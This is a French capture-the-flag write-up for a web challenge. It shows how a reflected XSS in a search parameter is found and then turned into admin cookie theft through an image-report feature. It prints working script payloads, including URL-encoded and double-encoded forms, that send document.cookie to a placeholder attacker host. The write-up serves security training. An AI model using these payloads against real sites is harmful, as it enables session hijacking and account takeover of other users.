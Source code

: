 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ `/?search=` avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

`<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

On test donc le payload sur notre propre session avec le champ de recherche : 

    https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

    https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F[ATTACKINGIP]%22%2Bdocument.cookie%3B%3C%2Fscript%3E

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

    https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F[ATTACKINGIP]%2522%252Bdocument.cookie%253B%253C%252Fscript%253E

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.
